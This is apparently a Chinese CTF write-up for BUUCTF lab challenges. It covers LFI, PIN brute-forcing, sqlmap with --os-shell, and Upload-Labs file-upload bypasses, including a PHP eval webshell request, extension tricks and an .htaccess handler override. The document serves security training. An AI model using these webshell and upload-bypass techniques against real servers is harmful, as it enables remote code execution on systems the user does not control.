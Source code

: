 # BUU LFI COURSE 1
`view-source:http://5fe44853-857f-4e8d-b756-56ea72f00a21.node5.buuoj.cn:81/?file=/flag`

# BUU BRUTE 1
使用 burp 对 password 从 0000-9999 暴力破解

# BUU SQL COURSE 1
使用 sqlmap
```sh
python .\tools\sqlmap\sqlmap.py -u "http://a6acd68a-3f7b-4ea6-aa60-a4e3b6b7ac0d.node5.buuoj.cn:81/backend/content_detail.php?id=2" --os-shell
ls
find / -name flag
cat /flag
```

# Upload-Labs-Linux
关于文件上传

### pass1 客户端 js 验证
禁用网页js（使用插件Quick Javascript Switcher）,或者使用burpsuit。上传 webshell
```
------WebKitFormBoundarykQoJzWfXWa1VBSZj
Content-Disposition: form-data; name="upload_file"; filename="shell.php"
Content-Type: image/png

<?php
eval($_POST["pass"]);

------WebKitFormBoundarykQoJzWfXWa1VBSZj
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundarykQoJzWfXWa1VBSZj--
```
然后使用菜刀、蚁剑、Godzilla打开上传文件的地址`xxxx/upload/shell.php`

### pass2 服务器文件类型验证
上传文件时，明确 `Content-Type: image/png`， 方法同上

### pass3 服务器文件后缀验证
上传文件时，文件后缀可以尝试 `.php .phtml .phps .php5 .pht`，方法同上

### pass4 服务器 `Apache .htaccess` 配置文件验证
方案1：
添加无法解析的后缀如 `pass4.php.xxxx` 绕过验证。一句话木马可以尝试使用 `<?php echo(phpinfo());?>` 来验证。
上传成功后访问 `http://xxxxx/upload/pass4.php.xxxx` 来验证。
方案2：
利用.htaccess来把含有php语言的图片，能够作为脚本处理。以下是 .htaccess 文件内容
```
<FilesMatch "pass4.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```
上传后尝试打开：`http://xxxxx/upload/.htaccess` 如果返回403，证明已经上传成功。
然后将一句话木马用 `.jpg` 文件后缀进行上传，然后网站就会将 .jpg 作为 php 来解析了。
`http://xxxxx/upload/pass4.jpg`
